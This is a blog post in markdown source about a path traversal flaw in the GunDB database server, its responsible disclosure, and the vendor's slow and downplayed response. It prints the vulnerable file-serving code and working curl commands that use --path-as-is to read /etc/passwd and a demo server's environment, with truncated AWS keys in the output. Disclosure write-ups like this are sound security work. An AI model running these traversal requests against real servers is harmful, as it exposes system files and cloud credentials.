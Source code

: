```yaml
---
layout:     post
title:      'Serious security vulnerability in GunDB (and new ones)'
date:       2020-01-20 14:30:00
tags:       ['infosec']
permalink:  /2020/01/20/serious-security-vulnerability-in-gundb-and-new-ones/
---
```


Last year I discovered a
[serious security vulnerability](https://github.com/amark/gun/security/advisories/GHSA-886v-mm6p-4m66)
([path traversal](https://wiki.owasp.org/index.php/Relative_Path_Traversal)) that enabled
me to read any file on the server [GunDB](https://gun.eco/) runs in - I was even able to
steal AWS credentials from the demo server.

Contents:

- [Discovery](#discovery)
- [Disclosure](#disclosure)
- [Somebody had actually reported this before](#somebody-had-actually-reported-this-before)
- [Not updating the Docker image](#not-updating-the-docker-image)
- [More vulnerabilities](#more-vulnerabilities)
- [Conclusion](#conclusion)
- [Timeline](#timeline)
- [Further reading](#further-reading)


Discovery
---------

I was having a chat with a buddy of mine about how much I dislike JavaScript, and I
mentioned someone even built a database product with it. I also remember GunDB having
let's say.. "eccentric".. coding style. I went in to browse the code to provide an example.

Pretty much instantly I came upon
[this file](https://github.com/amark/gun/blob/0c02e7615a7c71bf45a7b2926c0ce8e8f1c64015/lib/serve.js#L27),
and at first I thought "huh, it looks like I can read any file, but no it couldn't be this simple..":

	var path = __dirname + '/../' + req.url.split('/').slice(2).join('/'), file;
	try{file = require('fs').readFileSync(path)}catch(e){}
	if(file){
		res.end(file);
		return true;
	}

I tried `$ curl` and sure enough:

	$ curl --path-as-is http://localhost:8765/gun/../etc/passwd
	root:x:0:0:root:/root:/bin/ash
	bin:x:1:1:bin:/bin:/sbin/nologin
	...

The `--path-as-is` is needed so CURL doesn't normalize the path to `/etc/passwd` - remember
this because this'll come back later in this post.

They also had a demo instance of GunDB running in Heroku, so I tried it also:

	$ curl --path-as-is http://gunjs.herokuapp.com/gun/../proc/self/environ
	DYNO=web.1
	AWS_S3_BUCKET=gunjs.herokuapp.com
	AWS_ACCESS_KEY_ID=AKIAJUFG...
	AWS_SECRET_ACCESS_KEY=GF55d...
	...

My jaw hit the floor. I was this easily able to steal their AWS credentials. Knowing their
security practices, I fear those were AWS root keys and I could've done some serious damage.

This is where I stopped exploring - obviously I didn't want to attack any actual users.


Disclosure
----------

I had to research about
[responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure).

I contacted the vendor, Mark. He seems like a nice person, and was appreciative of my
disclosure. I told I didn't use the AWS keys I got ahold of, but that they should be
considered compromised and revoked ASAP.

We had some back-and-forth with suggestions on how to handle it.

The thing I didn't appreciate was that the vendor's disclosure idea was hiding it deep
inside the documentation hierarhy under a link named "curl --path-as-is" (see
[now-removed document](/images/2020/gundb-curl-as-is.pdf)). I explained:

> Thoughts about the document:
> 
> - The entire point is for as big part of GUN's userbase as possible to find and understand the problem, so they can protect themselves by updating.
> - Title is the most important part of a page. "curl --path-as-is" as a title looks like "meh, I don't care" to any possible users - they won't open the page.
> - How can users find this security advisory page from the documentation? I didn't find it from the page hierarchy.
> - "Who Was Effected? Only people using a NodeJS server with something like ..." is downplaying the issue. Your list basically includes all of the server-side usecases of GUN. Maybe people who only use parts of GUN as a library in their apps aren't vulnerable - but those would be really rare exception.
> - I'd recommend you use GitHub's security advisory feature to publish this, so it has the maximal chance of warning people who still haven't upgraded.

After this the vendor implemented my suggestions (and some additional ones):

- [GitHub security advisory](https://github.com/amark/gun/security/advisories/GHSA-886v-mm6p-4m66)
- [Twitter tweet](https://twitter.com/marknadal/status/1136014285799215104)
- He said he also announced about it in a chat room


Somebody had actually reported this before
------------------------------------------

JK0N had actually discovered this and
[offered a ready fix](https://github.com/amark/gun/pull/527) on a silver plate before, but
vendor "did not understand the --path-as-is condition" and clearly didn't understand how
serious this vulnerability is.


Not updating the Docker image
-----------------------------

GunDB's GitHub frontpage advertizes Docker as a first-class citizen:

![](/images/2020/gundb-docker.png)

.. so I find it reckless that 150+ days since my disclosure,
[the Docker image was still vulnerable](https://github.com/amark/gun/issues/812). There's
nothing wrong if
[the project maintainer doesn't know how to work with Docker](https://github.com/amark/gun/issues/812#issuecomment-530046388),
but it's very wrong to let your users think Docker channel is supported and maintained, and
keep distributing serious vulnerability for 150+ days.

The very least I would've expected the maintainer to do is to stop advertizing the Docker
channel as a first-class citizen if serious vulnerabilities come by and are not fixed.
Even better would have been to put up a warning sign saying that Docker channel is unmaintained.


More vulnerabilities
--------------------

Now that I finally got around to writing this post, I decided to take one more glance to
see if there are more glaring security problems, and sure enough under 90 minutes I discovered
and filed more issues:

- [Arbitrary file read vulnerability under GUN root directory](https://github.com/amark/gun/issues/881) -
  **the whole database's raw on-disk files are world-readable**.
- [Same unfixed vuln that this blog post is about in another file (example websocket server)](https://github.com/amark/gun/issues/880)
- Vulnerability in Gist linked from README which might be artefact of people copy-pasting
  original vulnerable code around - made worse by this Gist being publicized in README.
  (I mentioned this in above linked issue's description).

Who knows how much issues there are, when security is thought of as a cost center.


Conclusion
----------

When I reported the bug, I recommended to have a security person review the fix before it's
published. The vendor said he didn't know any.

I find it odd that a project with
[practically one programmer](https://github.com/amark/gun/graphs/contributors) and
[2.6 million USD in funding](https://www.crunchbase.com/organization/gun-2) (that we know
of) can't afford to have a security-conscious person in the team OR have audits done.
Security should be important,
especially if the vendor is boasting that users include
[the Dutch Navy](https://techcrunch.com/2018/05/23/gun-raises-more-than-1-5m-for-its-decentralized-database-system/)
or the [Internet Archive](https://www.bleepingcomputer.com/news/technology/archiveorg-has-created-a-decentralized-or-dweb-version-of-their-site/).

In summary, this happened:

- There was a serious vulnerability (which in itself is fine - these things happen)
- Vendor downplayed said vulnerability and didn't properly reach out to users
- Vendor left one of the first-class citizen distribution channels vulnerable for 150+ days
- Someone had reported and offered a fix on a silver plate, but vendor did not understand
- I feel like I had to do a lot of hand-holding to get users secured - which should not be
  my job, especially since I was not compensated in any way.
- There still are unfixed vulnerabilities of same type (path traversal) in other parts of code.
- Just a cursory glance revealed more serious vulnerabilities.

Therefore I would conclude: if security is important to you, I don't recommend using GunDB.
If you really need to use GunDB, you yourself should have an in-house security person to
secure GunDB, because the vendor doesn't make security a priority.


Timeline
--------

| T±   | Action |
|------|--------|
| -364 days | Someone else had discovered (and offered a fix to) the bug |
| -0 days   | I discovered the bug (2019-04-09) |
| +0 days   | I disclosed it to the vendor |
| +0 days   | Vendor replied |
| +5 days   | Vendor had a patch (2019-04-14) |
| +55 days  | Vendor disclosed it by hiding it deep in the docs and downplaying it (2019-06-03) |
| +57 days  | Vendor disclosed in more public fashion due to my suggestion |
| +154 days | Vendor still hadn't updated their official Docker image (2019-09-10) |


Further reading
---------------

- [Recent really serious Citrix path traversal vulnerability codenamed "Shitrix"](https://www.zdnet.com/article/proof-of-concept-code-published-for-citrix-bug-as-attacks-intensify/)
